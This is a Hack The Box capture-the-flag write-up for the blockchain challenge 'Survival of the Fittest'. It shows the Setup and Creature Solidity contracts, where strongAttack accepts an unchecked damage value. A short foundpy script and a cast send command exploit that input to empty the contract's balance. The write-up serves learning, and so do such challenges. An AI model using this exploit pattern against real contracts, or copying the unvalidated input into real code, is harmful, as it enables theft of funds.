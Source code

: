 ```yaml
---
title: Survival of the Fittest Challenge
date: 2024-12-2 +0700
categories: [HTB, Blockchain]
tags: [Self-Development]
image:
  path: /images/Survival%20of%20the%20Fittest%201.png
description: A write-up from a challenge at Hack The Box
author: <author_id>
---
```


## Information
First of all i was given an URL, here is the first look:
![First Look at the Website](/images/Survival%20of%20the%20Fittest%201.png)

There is just a restart button and an attack button, but no matter how many times i press the attack button it wont just die, alright since there is docs, Home, and Connection page on the header, let's visit it one by one

## Home
Yeah the same as the pciture above

## Docs
![Docs Section](/images/Survival%20of%20the%20Fittest%202.png)
Turns out it give you all the information you need to solve the challenge, hold it dearly and read carefully!

## Connection
![Connection Section](/images/Survival%20of%20the%20Fittest%203.png)
This section is the core information you need to solve the Challenge, alright everything has been written down, lets try to solve the challenge!

## Understanding the Workflow
There are two files given to the challengers to help them solve the challenge, here are the two files:

```text
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```
{: file="setup.sol"}

```text
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```
{: file="Creature.sol"}

now the goal here is to call the isSolved() function and make it true by making the balance zero, how to do that?

now let's take a look at the Creature.sol, there are two function to attack the creature, strongAttack function and punch function, if we use punch() the creature will get damaged one at a time, meanwhile the strongAttack() will deal damage according to (_damage), now you will get confused here if you just started learning blockchain like me at this time, what is _damage? you see there at the code that _damage is an uint256, it's a variable, and on blockchain, a variable, we can send any value into it, so the base payload gonna be:

`
cast send $ADDRESS_TARGET "functionWithArgs(uint)" 20 --rpc-url $RPC_URL --private-key $PRIVATE_KEY
`

alright now im going to demonstrate using foundpy since foundry is a pain in the ass if it's not on debian, let's use with the broad accessability shall we?

first of all if you guys want to follow my path by using foundpy too, you can learn how to use it on this documentation made by him
<https://pydigger.com/pypi/foundpy>

alright here is the setup to attack the creature
```javascript
from foundpy import *
config.from_htb(address="$DESTINATION")
config.setup(
    rpc_url="$RPC_URL",
    privkey="$0xsomething"
)
target_addr = "$0xsomething"
# to attack the creature
cast.send(target_addr, "strongAttack(uint256)", 20)
 # hey dont forget to loot it otherwise you wont get the flag!
cast.send(target_addr, "loot()")

# now call the isSolved to get the flag :3
setup_addr = "$0xsomething"
print(cast.call(setup_addr, "isSolved()"))
```
{: file="attack.py"}

here is the step by step on how to use foundpy based on my experience
1. initialize config.from_htb
2. command the config.from_htb
3. input the `rpc_url` and the `privkey` and the `target_addr` from the data you just fetch from the python config
4. now use the cast send to interact with the `strongAttack()` and `loot()` function
5. after you already interact with those two functions, disable them by command it
6. now input the `setup_addr` from the data you already got on step 1
7. lastly, call the function and print the output, if the output is something like this
`b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'`
8. Congratulations! you just solved a blockchain challenge! keep up the good work~
9. now access the http://url/flag to get you flag and submit it to the HTB to mark it as solved

that's all to do the Survival of the Fittest Challenges
thank you for reading :3



